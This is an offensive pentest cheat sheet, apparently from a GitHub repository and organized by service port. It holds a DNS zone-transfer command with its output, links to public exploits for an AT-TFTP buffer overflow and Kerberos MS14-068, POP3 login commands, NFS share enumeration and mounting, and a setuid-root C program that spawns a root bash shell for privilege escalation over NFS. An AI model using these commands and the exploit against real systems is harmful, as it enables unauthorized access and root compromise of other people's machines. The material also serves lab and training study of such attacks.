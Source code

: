 Zone Transfers to reveal subdomains
```bash
root@kali# dig axfr friendzoneportal.red @10.10.10.123
; <<>> DiG 9.10.3-P4-Debian <<>> axfr friendzoneportal.red @10.10.10.123
admin.friendzoneportal.red. 604800 IN	A	127.0.0.1
files.friendzoneportal.red. 604800 IN	A	127.0.0.1
imports.friendzoneportal.red. 604800 IN	A	127.0.0.1
vpn.friendzoneportal.red. 604800 IN	A	127.0.0.1
friendzoneportal.red.	604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800
```

### TFTP - UDP 69

Allied Telesyn TFTP Server (AT-TFTP) 1.9 Remote Buffer Overflow
* Public exploit: https://github.com/shauntdergrigorian/cve-2006-6184
* MSF exploit: https://www.exploit-db.com/exploits/16350


### Kerberos - TCP 88

Open port 88 = machine is likely a Windows Domain Controller.

Privilege escalation vulnerability: MS14-068
* https://github.com/SecureAuthCorp/impacket/blob/master/examples/goldenPac.py
* https://www.trustedsec.com/2014/12/ms14-068-full-compromise-step-step/

### POP3 - TCP 110

```bash
$ telnet [target]
> USER bob@target
> PASS admin

> list                  # List all emails
> retr 5                # Retrive email number 5, for example
```

### Remote Procedure Call - TCP 111

Exploit NFS shares
```bash
$ rpcinfo -p [ target IP ] | grep 'nfs'
$ rpcbind -p [ target IP ]                        # Look for NFS-shares
$ showmount -e [ target IP ]                      # show mountable directories
$ mount -t nfs [target IP]:/ /mnt -o nolock       # mount remote share to your local machine
$ df -k                                           # show mounted file systems
```

Exploit NFS shares for privesc:
```bash
$ showmount -e 192.168.xx.53
Export list for 192.168.xx.53:
/shared 192.168.xx.0/255.255.255.0
$ mkdir /tmp/mymount
/bin/mkdir: created directory '/tmp/mymount'
$ mount -t nfs 192.168.xx.53:/shared /tmp/mymount -o nolock
$ cat /root/Desktop/exploit.c
#include <stdio.h>
#include <unistd.h>
int main(void)
{
setuid(0);
setgid(0);
system("/bin/bash");
}
gcc exploit.c -m32 -o exploit

```